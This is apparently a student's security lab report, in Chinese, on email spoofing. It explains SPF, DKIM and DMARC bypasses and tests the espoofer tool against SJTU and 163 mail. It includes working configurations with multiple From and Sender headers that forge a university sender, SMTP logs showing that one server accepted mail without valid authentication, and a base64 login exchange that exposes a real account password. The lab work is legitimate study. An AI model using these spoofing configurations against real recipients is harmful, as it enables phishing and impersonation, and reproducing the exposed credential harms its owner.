

# Security Lab4 网络协议安全

> Author: Kr.Cen, 康瑞 岑
> 
> Student ID: 521021910151
> 
> Email Address: kr2256671169@sjtu.edu.cn
> 
> Date: 2023.6.02
> 
> Hint: This is a report of <Computer System Security> lab4.

## Principle

> 发件人策略框架 (SPF)。域的所有者可以通过发布 DNS 记录以指定允许哪些 服务器为该域发送电子邮件。当邮件服务器收到了一封邮件，为了确认发件人不 是伪造的，邮件服务器利用 HELO 和 MAIL FROM 段去查询 SPF 记录，检查发 件人的 IP 地址是否与 SPF 策略匹配。
>
> 域名密钥识别邮件 (DKIM)。DKIM 使用加密技术来验证发件人并保护电子 邮件的完整性。发送邮件时，发送邮件服务器使用其私钥生成一个 DKIM 签名头， 并将其附加到邮件中。目的服务器收到邮件后，在 DKIM 签名头的 d= 字段中查 询域，获取签名者的公钥，并验证 DKIM 签名的有效性。
>
> DMARC。接收邮件时，接收邮件服务器查询 From 头中的域以获取其 DMARC 策略，该策略指定接收方应如何处理传入的电子邮件。接收服务器执行标识符一 致性测试，以检查 From 头中的域是否与 SPF 或 DKIM 验证的域名匹配。检测有 严格和放松两种模式。在严格模式下，From 头域需要与 SPF 或 DKIM 身份验证 标识符完全匹配。在轻松模式 (默认) 下，它只需要有相同的注册域。

本次实验原理是利用「电子邮件系统在不同的阶段对邮件内容安全检查机制的不一致性」所产生的安全问题进行邮件的伪造。

使用脚本为espoofer：

~~~shell
git clone https://github.com/chenjj/espoofer
sudo pip3 install -r requirements.txt
~~~

1. SPF（发件人策略框架）： SPF是一种用于验证邮件发送者身份的机制。它使用发件人域名的DNS记录来确定哪些邮件服务器被授权发送与该域相关的邮件。邮件接收服务器可以通过检查发送邮件的服务器是否包含在发件人域名的SPF记录中，来验证邮件的合法性。

   绕过方法：

   - 使用被授权的邮件服务器：攻击者可以通过使用受信任的邮件服务器来发送伪造邮件，使其通过SPF验证。这可能需要入侵或滥用合法的邮件服务器。
   - 操纵DNS记录：攻击者可以修改发件人域名的DNS记录，将恶意邮件服务器添加到SPF记录中，以使其通过验证。这可能需要入侵或滥用DNS管理权限。

2. DKIM（域键标识邮件）： DKIM是一种通过使用公钥加密数字签名来验证邮件完整性和身份的机制。发件人使用私钥对邮件进行签名，并将签名作为DKIM头部字段的一部分包含在邮件中。收件人服务器可以通过使用发件人域名的公钥来验证签名的完整性和有效性。

   绕过方法：

   - 不验证DKIM签名：一些邮件接收服务器可能没有严格实施DKIM验证，或者对验证失败的邮件采取宽松的处理。攻击者可以利用这种情况来发送伪造的邮件，即使它们没有有效的DKIM签名。
   - 破解私钥：如果攻击者能够破解发件人域名的私钥，他们可以使用私钥来生成有效的DKIM签名，并发送伪造的邮件。

3. DMARC（基于域的邮件认证、报告和合规性）： DMARC是一种通过结合SPF和DKIM来提供更强的邮件身份验证和域名保护的机制。它允许发件人指定他们的邮件处理策略，并指示接收方如何处理未通过验证的邮件。

   绕过方法：

   - 未启用DMARC：如果目标域名没有启用DMARC验证或采取宽松的策略，攻击者可以发送伪造邮件，并且邮件接收服务器不会采取任何特殊措施来处理验证失败的邮件。
   - 伪造“通过”DMARC验证：攻击者可以伪造邮件头部中的DMARC字段，使其看起来像通过了DMARC验证，从而欺骗接收方服务器。

---

以下尝试都使用Client Mode，对于不同的client mode，攻击原理不同：

* Client_a1: "Spoofing via an email service account using multiple From headers."

  即在from_header中给定多个From字段

  ~~~py
  "data": {
  	"from_header": b"From: <attacker@example.com>\r\nFrom: <admin@example.com>\r\n",
  	......
  },
  ~~~

* Client_a2: "Spoofing via an email service account using multiple address."

  即在from_header中给定多个address

  ~~~python
  "data": {
  	"from_header": b"From: <attacker@example.com>, <admin@example.com>\r\n",
  	......
  },
  ~~~

* Client_a3: "Spoofing via an email service account."

## Attempt1：sjtu => sjtu

交大邮箱同时作为发送方和接收方

~~~py
config = {
	"attacker_site": b"attack.com", # attack.com
	"legitimate_site_address": b"canvas@sjtu.edu.cn", # From header address displayed to the end-user
	"victim_address": b"kr2256671169@sjtu.edu.cn", # RCPT TO and message.To header address,
	"case_id": b"client_a1", #  You can find all case_id using -l option.

	# The following fields are optional
	"server_mode":{
		"recv_mail_server": "", # If no value, espoofer will query the victim_address to get the mail server ip
		"recv_mail_server_port": 25,
		"starttls": False,
	},
	"client_mode": {
		"sending_server": ("smtp.sjtu.edu.cn", 25),
		# "sending_server": ("smtp.163.com", 25),
		"username": b"yzd030320@sjtu.edu.cn",
		"password": b"********",
	},
  
  ......
}
~~~

分别使用client_a1/client_a2/client_a3发送邮件，都成功地发送，但只有client_a3真正实现伪装（尽管此时还会显示代发人）。

修改client_a3 mode的内容，删除Sender段：

~~~python
"client_a3": {
	"helo": b"espoofer-MacBook-Pro.local",
	"mailfrom": b"<attacker@example.com>",
	"rcptto": b"<victim@victim.com>",
	# "dkim_para": {"d":b"attack.com", "s":b"selector", "sign_header": b"From: <first@legitimate.com>, <second@attack.com>"},
	"data": {
	"from_header": b"From: <admin@example.com>\r\n",
	"to_header": b"To: <victim@victim.com>\r\n",
	"subject_header": b"Subject: client A3: Spoofing via an email service account\r\n",
	"body": b"Hi, this is a test message! Best wishes.\r\n",
	"other_headers": b"Date: " + get_date() + b"\r\n" + b'Content-Type: text/plain; charset="UTF-8"\r\nMIME-Version: 1.0\r\nMessage-ID: <1538085644648.096e3d4e-bc38-4027-b57e-' + id_generator() + b'@message-ids.attack.com>\r\nX-Email-Client: https://github.com/chenjj/espoofer\r\n\r\n',
	},   
	# ---------------------
  # 在此处other_headers中删除"Sender: ... "字段
  # ---------------------
	"description": b"Spoofing via an email service account, refer to section 6.2 in the paper."
},
~~~

能够正常收到邮件，且发件人显示为一个伪造的合法地址canvas.sjtu.edu.cn。

此外，还惊奇地发现，即使不给定正确的Sender password（甚至为空），邮件依然可以正确地发送

~~~python
	"client_mode": {
		"sending_server": ("smtp.sjtu.edu.cn", 25),
		# "sending_server": ("smtp.163.com", 25),
		"username": b"yzd030320@sjtu.edu.cn",
		"password": b"",			# 在此处password字符串直接为空
	},
~~~

在输出内容中，会显示

~~~shell
>>> 535 5.7.8 Error: authentication failed: authentication failure

<<< mail from: <yzd030320@sjtu.edu.cn>
~~~

即Sender账户认证失败。**即便如此，邮件依然可以正确发送**。

~~~shell
>>> 250 2.0.0 Ok: queued as 497A137C93C

<<< quit

>>> 221 2.0.0 Bye

Finished.
~~~

且能正常收到邮件。这说明sjtu邮箱发送邮件时甚至不会check sender account authentication.

---

## Attempt2：163 => sjtu

尝试了所有不同的client mode，但command line output都为

~~~shell
<<< AUTH LOGIN a3IyMjU2NjcxMTY5QDE2My5jb20=

>>> 334 UGFzc3dvcmQ6

<<< Q2Vua2FuZ3J1aTAzMDMxMQ==

>>> 550 User has no permission

<<< mail from: <kr2256671169@163.com>

>>> 550 User has no permission

<<< rcpt to: <kr2256671169@sjtu.edu.cn>

>>> 503 bad sequence of commands

<<< data

>>> 503 bad sequence of commands
~~~

无法正常发送邮件，这可能说明对于163邮箱用户，代发邮件"has no permission"。

---

## Attempt3：sjtu => 163

交大邮箱作为发送方，攻击163邮箱，sending_server = smtp.sjtu.edu.cn

~~~py
	"attacker_site": b"attack.com", # attack.com
	"legitimate_site_address": b"canvas@sjtu.edu.cn", # From header address displayed to the end-user
	"victim_address": b"kr2256671169@163.com", # RCPT TO and message.To header address,
	"case_id": b"client_a1", #  You can find all case_id using -l option.

  "client_mode": {
		"sending_server": ("smtp.sjtu.edu.cn", 587),
		"username": b"kr2256671169@sjtu.edu.cn",
    "password": b"********",
	},
~~~

使用mode client_a1/client_a2：脚本正常运行，但在发送方(交大邮箱)显示邮件被拦截。反馈为：

> 550 Multi from field or address in header (in reply to end of DATA command)
> 标头中的字段或地址多址(作为对DATA命令结束的回复)
>
> 说明163邮箱会检查From字段是否存在mutiple value

使用mode client_a3：脚本正常运行，且发送方不会拦截，接收方也不会被放入垃圾邮箱，接收如下：

发送成功，但同样会显示代发方。

尝试使用Attempt1相同的方法，删除Sender字段，但仍然会显示代发邮箱号。

此处，我尝试了各种方法，最终发现：当在other_header中再添加一个Sender字段，**邮件界面将会显示任意伪造的代发邮箱**！

config:

~~~py
"client_a3": {
	"helo": b"espoofer-MacBook-Pro.local",
	"mailfrom": b"<attacker@example.com>",
	"rcptto": b"<victim@victim.com>",
	# "dkim_para": {"d":b"attack.com", "s":b"selector", "sign_header": b"From: <first@legitimate.com>, <second@attack.com>"},
	"data": {
	"from_header": b"From: <admin@example.com>\r\n",
	"to_header": b"To: <victim@victim.com>\r\n",
	"subject_header": b"Subject: client A3: Spoofing via an email service account\r\n",
	"body": b"Hi, this is a test message! Best wishes.\r\n",
	"other_headers": b"Date: " + get_date() + b"\r\n" + b'Sender: <s@sender.legitimate.com>\r\nSender: 12345678@qq.com\r\nContent-Type: text/plain; charset="UTF-8"\r\nMIME-Version: 1.0\r\nMessage-ID: <1538085644648.096e3d4e-bc38-4027-b57e-' + id_generator() + b'@message-ids.attack.com>\r\nX-Email-Client: https://github.com/chenjj/espoofer\r\n\r\n',
	},
  # ---------------------
  # 在此处other_headers中添加一个额外的"Sender: 12345678@qq.com\r\n"字段, 即有两个"Sender: ..."
  # ---------------------
	"description": b"Spoofing via an email service account, refer to section 6.2 in the paper."
},
~~~

最终邮件界面为

My insights：163邮箱会对mutiple from field进行检测，但不会对mutiple sender field进行检测，并且显示结果只会显示一个sender。

---
